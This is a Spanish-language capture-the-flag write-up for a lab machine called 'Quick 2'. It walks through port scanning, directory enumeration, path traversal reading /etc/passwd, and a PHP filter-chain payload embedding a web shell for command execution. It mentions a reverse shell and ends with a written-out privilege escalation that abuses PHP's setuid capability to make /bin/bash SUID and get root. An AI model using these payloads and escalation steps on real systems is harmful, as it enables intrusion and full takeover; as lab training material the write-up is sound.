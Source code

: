 ## MAQUINA QUICK 2

Comenzamos haciendo un escaneo de puertos con nmap.

> nmap -p- --open -sS -sC -sV --min-rate 4000 "IP" -oN target.txt

![imagen]

Encontramos el puerto 22 ssh y el 80 http abiertos.
Ingresamos al puerto servidor web (port 80) ya que no poseemos ninguna credencial para loguearnos en el ssh

![imagen]

Luego de revisar la pagina, realizamos una enumeracion de directorios ocultos con gobuster.

> gobuster --url "IP" -w "/wordlists" -t 100 -x html,php,txt,js

![imagen]

La enumeracion encontro un directorio llamado file.php. Ingresando alli, la web contiene una barra donde al parecer podemos leer archivos o ingresar algun comando.

Utilizamos nikto para ver si la web es vulnerable a algo

>nikto -host "ip"

![imagen]

Como resultado de nikto la web contiene a una vulnerabilidad de file traversal, lo que significa que podemos leer archivos que esten dentro de la maquina.

Probamos leyendo el "/etc/passwd/"  y nos representa por la web el contenido del mismo.

![imagen]

Vemos que hay 2 usuarios, el usuario: nick y el usuario: andrew.

Prendemos el burpsuite para ver como esta corriendo el programa por dentro, Y con el la herramienta "php_filter_chain_generator.py" vamos a crear un cadena de filtros para el php.

> python3 php_filter_generator.py --chain '<?php system($_GET["cmd"]);?>'

Una vez generada la cadena, lo enviamos al burpsuite >> repeater >> y luego del "cmd" colocamos el comando a utilizar en este caso "id".

![imagen]

Si todo esta bien como resultados muestra que el id es igual a www-data.

Con esto leemos el archivo FILE.php que nos quedo pendiente.

Despues del "php://temp" agreamos el comando 
"=&cmd=" (y de aca colocamos lo que queremos hacer, ejemplo (ls,ipa,whoami, etc)). 

![imagen]

Bien continuando, ya que podemos ingresar linea de comandos, generamos un RV encondeada para conectarnos desde la maquina victima a la maquina atacante.

![imagen]

Genial, una vez dentro vamos a escalar privilegios ya ingresamo como el usuario www-data.

Leemos las tareas crontab con el comando

>getcap -r 2>/dev/null

Obtenemos como resultado una capabilities /usr/bin/php8.1 cap_setuid=ep

![imagen]

Buscamos en gtfobins si tenemos alguna manera de escalar priv con php8.1 y si utilizamos el comando proporcionado por la pagina y listo somos user root.

Les dejo el comando por si no lo entienden:

> /usr/bin/php8.1 -r "posix_setuid(0); system('chmod +s /bin/bash/');"
> /bin/bash -p

ROOT






